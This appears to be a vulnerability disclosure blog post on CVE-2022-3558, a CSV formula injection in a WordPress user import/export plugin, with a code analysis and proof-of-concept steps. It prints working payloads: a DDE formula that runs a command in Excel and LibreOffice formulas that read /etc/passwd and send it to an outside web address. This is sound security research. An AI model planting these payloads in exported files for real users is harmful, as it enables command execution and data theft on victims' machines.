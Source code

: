 ```yaml
---
layout: post
categories: vulns
title: "CVE-2022-3558 - Wordpress Plugins - Import and export users and customers - CSV Injection"
permalink: "/:categories/:title/"
---
```


# Intro

As defined by OWASP : CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

When a spreadsheet program such as Microsoft Excel or LibreOffice Calc is used to open a CSV, any cells starting with = will be interpreted by the software as a formula. Maliciously crafted formulas can be used for three key attacks:

* Hijacking the user’s computer by exploiting vulnerabilities in the spreadsheet software, such as CVE-2014-3524.
* Hijacking the user’s computer by exploiting the user’s tendency to ignore security warnings in spreadsheets that they downloaded from their own website.
* Exfiltrating contents from the spreadsheet, or other open spreadsheets.


# Summary

A formula injection (CSV Injection) in the Wordpress plugin **Import and export users and customers version 1.20.4** allows an attacker to inject arbitary excel formulas via manipulation of an unsanitized parameter.


# Code analysis

The **batch_exporter.php** script defines a class named **ACUI_Batch_Exporter** and a property named **user_data** which is an array.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_code_review.png">

The script also defines a method named **get_user_data()** which returns the property **user_data** of the current object.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_code_review_1.png">

The method is called in another method named **load_columns()**.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_code_review_2.png">

The user's data is gathered from the web app's database and is exported to a CSV file format with a delimiter. Wordpress allows users to update their information and specify certain characters such as a comma or a semicolon, that are considered as "delimiters" in a CSV file. 

# Exploit

## Simple formula injection

The following shows the exploitation in form of a simple formula injection in the **Nickname** input which will then be passed to the plugin’s functions and inserted in the final CSV exported file.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc.png">

Then, the admin exports the users and downloads the CSV file.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_1.png">

The semicolon has been interpreted as a delimiter, the formula has been read and the result of the arithmetic operation **1+2** is printed in the cell.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_2.png">

## Command Execution

Old versions of Microsoft Excel allow usage of [DDE](https://learn.microsoft.com/en-gb/windows/win32/dataxchg/about-dynamic-data-exchange) (Dynamic Data Exchange) in the default settings. Attackers can abuse this feature to execute commands on the target's system, once the CSV file opened.

This exploit needs the *Enable Dynamic DataExchange Server Launch* option to be enabled on **recent versions of Microsoft Excel**.

```
#Payload 

;=cmd|' /C calc'!xxx

```

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_calc_1.png">

In recent versions of Microsoft Excel, a warning message is shown before using the DDE protocol. 

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_calc_2.png">

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_calc_3.png">

Finally, the attacker gets a command execution on the target's system.

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_calc_4.png">



## File read and data exfiltration

Attackers can achieve a local file read and data exfiltration when the malicious CSV file is opened with LibreOffice Calc.

```
# Read line in file

;='file:///etc/passwd'#$passwd.A1

# Exfiltrate line

WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)))

```

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_lfi.png">

<img src="../../assets/images/posts/vulns/import-export-users/import_users_csv_injection_poc_lfi_1.png">


# References

* Plugin URL : [https://wordpress.org/plugins/import-users-from-csv-with-meta/](https://wordpress.org/plugins/import-users-from-csv-with-meta/)
* WPScan : [https://wpscan.com/vulnerability/e3d72e04-9cdf-4b7d-953e-876e26abdfc6](https://wpscan.com/vulnerability/e3d72e04-9cdf-4b7d-953e-876e26abdfc6)
* Mitre - CVE-2022-3558 : [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3558)
* OWASP - CSV Injection : [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* Hacktricks - Formula Injection : [https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#formula-injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#formula-injection)
